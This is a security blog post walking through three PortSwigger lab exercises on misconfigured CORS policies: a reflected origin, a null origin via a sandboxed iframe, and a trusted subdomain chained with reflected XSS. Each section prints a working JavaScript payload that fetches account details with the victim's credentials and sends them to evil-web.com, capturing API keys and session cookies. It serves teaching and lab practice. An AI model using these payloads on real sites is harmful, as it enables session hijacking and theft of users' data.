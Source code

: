 ```yaml
---
layout: post
title:  "Insecure CORS Policy"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/170120828-3edcc859-fc45-42c3-9fe7-a8cd8b20f682.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

- Cross-Origin Resource Sharing (CORS) is a browser mechanism that allows controlled access to resources outside a given domain.
- It extends and adds flexibility to the same-origin policy (SOP).
- However, it also offers the potential for cross-domain attacks if a website's CORS policy is poorly configured and implemented.

# Table of Contents
1. [CORS vuln with Origin base mirrored](#CORSvulnOriginmirrored)
2. [Origin only allows null origins](#Originallowsnullorigins)
3. [CORS with insecure reliable protocols](#CORSinsecurereliableprotocols)

---
#### 1- CORS vuln with Origin base mirrored <a name="CORSvulnOriginmirrored"></a>
We can see the result of the data in the response. 

![CORSBASIC1](https://user-images.githubusercontent.com/47476901/170133516-05d66e42-aae7-425d-a359-590e27bab824.png)

And the customized origin is reflected, which tells us that it is vulnerable.

`Origin: http://web-testing.com` ✔

![CORSBASIC2](https://user-images.githubusercontent.com/47476901/170130161-41f34362-0e9b-41f3-a551-84ec272c8ea0.png)

We create a custom html so that this data is sent to our malicious page to steal this data.

![CORSBASIC-webmaliciosa](https://user-images.githubusercontent.com/47476901/170120906-757459e0-d8c5-46dc-afab-980136ef0bbe.png)


- Malicious web HTML: 

```html
<html>
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://web.com/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
	location='https://evil-web.com/log?key='+this.responseText;
};
</script>
</html>
```

When the user visits our site it will send the data from that endpoint to our site where it can be seen in the logs of our server.

![CORSBASIC-LOGS](https://user-images.githubusercontent.com/47476901/170130571-b84a03fb-03d3-45ae-ac51-9d6232ff2a33.png)

---

#### 2- Origin only allows null origins <a name="Originallowsnullorigins"></a>
When we modify the Origin it is not reflected in the request.

`Origin: http://web-testing.com` ❌

![CORS-NULL-nullisnotreflected](https://user-images.githubusercontent.com/47476901/170138954-83fb9cda-5285-4061-a8f0-b62b1b7b44ff.png)

We can see that the website only allows Origins that are null.

`Origin: null` ✔

![CORS-NULL-nullisreflected](https://user-images.githubusercontent.com/47476901/170138804-60f28985-7eda-48de-8ef9-c112cabd66d6.png)


- An attacker can use several tricks to generate a cross-origin request containing the `NULL` value in the Origin header.
- This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using an `iframe` cross-origin request in isolated form space:

- Malicious HTML web: 

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener; 
        req.open('get','https://web.com/accountDetails',true); 
        req.withCredentials = true;
        req.send();
		function reqListener() {
		location='https://evil-web.com/log?key='+this.responseText; }; 
    </script>
">
</iframe>
```
With the `location` we are indicating that this response that has the sensitive data is sent as parameters to the attacker's page.
This is the request that the victim user makes from behind when visiting our page.

1- Visit the attacker page and execute the javascript script we have created.

![CORS-NULL-1](https://user-images.githubusercontent.com/47476901/170137775-751b38de-66ea-4e9d-b25b-4270dff06ca3.png)


2- When it reads the location it sends the data

![CORS-NULL-2](https://user-images.githubusercontent.com/47476901/170121090-d15e2f6c-c45e-4e17-888e-f4b58605e167.png)

3- When the user visits our page it will send the data of that endpoint to our page where it can be seen in the logs of our server.
Server logs:

![CORS-NULL-3](https://user-images.githubusercontent.com/47476901/170134706-1013416d-639c-456e-8f71-fce0e65e0744.png)


Url Decode: 
We have:
User, email, apikey and the session (The cookie that is linked to the user).

![CORS-NULL-urldecode](https://user-images.githubusercontent.com/47476901/170134233-30ef7f41-ec13-415a-beeb-40ac5edbaf71.png)

**Filtering administrator data**

Now imagine that the administrator visits our page, we get his data and in that data is included the session cookie that we can use to enter your session
Server logs: 

![CORS-NULL-admin1](https://user-images.githubusercontent.com/47476901/170134825-d9b51872-9f82-49e6-99e1-b5514ab295f8.png)

Url Decode: 

![CORS-NULL-admin2](https://user-images.githubusercontent.com/47476901/170121205-6b456e81-74be-4d67-8422-cde3949111f7.png)

We already have the administrator session

`Admin Session: F1BVIVSoQvTaB8i6HJ25gxtJdvJKweuz`

![CORS-NULL-admin3](https://user-images.githubusercontent.com/47476901/170131836-e1b19346-e368-4f66-b6c3-67a6d13005bc.png)


#### 3- CORS with insecure reliable protocols <a name="CORSinsecurereliableprotocols"></a>

The website only trusts domains that belong to it, i.e. its subdomains.

We do a test with our site in the origin and we get no reflection.

`Origin: http://web-testing.com` ❌

![CORS-SUBDOMAIN1](https://user-images.githubusercontent.com/47476901/170138565-28a77954-350d-4730-bf5a-14b47debfcb9.png)

We tried with a subdomain and it is reflected.

`Origin: http://subdomain.web.com` ✔

![CORS-SUBDOMAIN2](https://user-images.githubusercontent.com/47476901/170134037-257d9b15-b86c-43a4-884c-4ae98a1333a1.png)


We found a valid subdomain

![CORS-SUBDOMAIN3](https://user-images.githubusercontent.com/47476901/170121326-6bf2936e-ecee-4043-b83d-64473fe62467.png)

This subdomain is vulnerable to XSS reflected in the productId parameters, this will help us to execute our script since the page only trusts its subdomains.

**XSS in subdomain**

![CORS-SUBDOMAIN-XSS](https://user-images.githubusercontent.com/47476901/170121381-2735c975-9520-407e-a8b7-626497e0f292.png)

We exploit this vulnerability to exploit cross-domain trust to exfiltrate data to our server.

**Our malicious web**
- HTML malicious web: 

```html
<html>
<script>
document.location="http://subdomain.web.com/?search=<script>var req = new XMLHttpRequest(); req.onload = reqListener;req.open('get','https://web.com/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='https://evil-web.com/log?key='%2b%this.responseText; };%3c/script>"
</script>
</html>
```

When the victim user visits our page he will execute the XSS of the subdomain containing the script that makes a request to the page vulnerable to cors by domain trust and the response of that request is sent to the logs of our server.

1- The user visits our malicious page which contains the main script

![CORS-SUBDOMAIN-FINAL1](https://user-images.githubusercontent.com/47476901/170137871-5a4914d8-0ba0-48a7-9b83-67ca6312bd11.png)

2- The javascript is executed and sends the user to the subdomain and executes xss 

![CORS-SUBDOMAIN-FINAL2](https://user-images.githubusercontent.com/47476901/170138239-bf2dfdf4-9c8b-4f7b-a47a-81aa0a0959aa.png)

3- As the script comes from a trusted domain configured by the cors of the final page, it is executed on the page vulnerable to CORS.

![CORS-SUBDOMAIN-FINAL3](https://user-images.githubusercontent.com/47476901/170138424-4ce4f7e3-1694-4b41-b7fc-f0da7741166d.png)

4- As it was malicious, the response was sent to the attacker's server with all the sensitive data.
Finally the data is sent to the malicious page as we can see with this intercepted request.

![CORS-SUBDOMAIN-FINAL4](https://user-images.githubusercontent.com/47476901/170129209-b81714b9-f65d-49e0-9f39-6eba73ec5fba.png)

5- These data are saved in the logs of our page as an attacker.
In which in this case are sent username, email, apikey and session cookie. 

![CORS-SUBDOMAIN-FINAL5](https://user-images.githubusercontent.com/47476901/170136436-fa4814e9-91a4-49d3-8ddd-41df7230c0d0.png)


6- In the most extreme case as we have explained before, if an administrator visits our page we will have your session cookie.

![CORS-SUBDOMAIN-FINAL6](https://user-images.githubusercontent.com/47476901/170136520-229b7aeb-10d7-4d00-a586-0982f23677ce.png)


7- Using the administrator's session cookie

`Admin Session: clljARot4Lc4KkFHfIylENGZmZbzYwD7`

![CORS-SUBDOMAIN-FINAL7](https://user-images.githubusercontent.com/47476901/170133118-797300b9-4428-467c-a961-80087da6f186.png)


### Conclusion
- This always depends on the response to the endpoint that we point.
- In this example if the user's session cookie or email was sent, but this is a particular case because the webs are very different from each other, as the above point says, it all depends on the response of the endpoint. 
- Understand what trust relationships are handled in CORS policies because there may be a CORS vulnerability but it does not have to be offensive. Like everything else, it depends on the context.

Source Labs:
- [Portswigger Labs](https://portswigger.net/web-security)

